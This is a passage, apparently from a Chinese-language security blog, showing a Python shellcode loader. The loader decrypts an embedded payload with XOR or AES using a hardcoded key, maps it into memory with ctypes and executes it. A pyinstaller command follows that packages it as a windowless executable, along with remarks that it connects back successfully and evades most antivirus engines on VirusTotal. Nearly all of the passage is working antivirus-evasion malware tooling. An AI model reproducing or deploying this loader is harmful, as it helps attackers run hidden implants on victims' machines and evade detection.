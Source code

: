 ```
def xor(data, key):
    l = len(key)
    keyAsInt = map(ord, key)
    return bytes(bytearray((
        (data[i] ^ keyAsInt[i % l]) for i in range(0,len(data))
    )))

#------------------------------------------------------------------------
def unpad(s):
    """PKCS7 padding removal"""
    return s[:-ord(s[len(s)-1:])]

#------------------------------------------------------------------------
def aesDecrypt(cipherText, key):
    """Decrypt data with the provided key"""

    # Initialization Vector is in the first 16 bytes
    iv = cipherText[:AES.block_size]

    cipher = AES.new(key, AES.MODE_CBC, iv)
    return unpad(cipher.decrypt(cipherText[AES.block_size:]))

if __name__ == '__main__':

    encryptedShellcode = ("\x32\x1f\x96")
    key = "IePGfIakAIG4GxOkNEbyXA=="
    cipherType = "aes"

    # Decrypt the shellcode
    if cipherType == 'xor':
        shellcode = xor(bytearray(encryptedShellcode), key)
    elif cipherType == 'aes':
        key = base64.b64decode(key)
        shellcode = aesDecrypt(encryptedShellcode, key)
    else:
        print "[ERROR] Unknown cipher type"

    # Copy the shellcode to memory and invoke it
    memory_with_shell = create_string_buffer(shellcode, len(shellcode))
    shell = cast(memory_with_shell,CFUNCTYPE(c_void_p))
    shell()
```

使用 pyinstaller 编译：

```
python pyinstaller.py --onefile --noconsole encryptedShellcodeWrapper_aes.py
```

编译执行，可上线，virustotal.com 上查杀率 19/71，和上面的 xor 加密一样。

![](https://mmbiz.qpic.cn/mmbiz_png/rTicZ9Hibb6RWKSfibtl3qJIyDU15icGvGIb8xd1chm3etk8TBzo7FicbMMcoQ0a1wUccnicz5WhTI0VR7hTqKTK1Yicg/640?wx_fmt=png)  
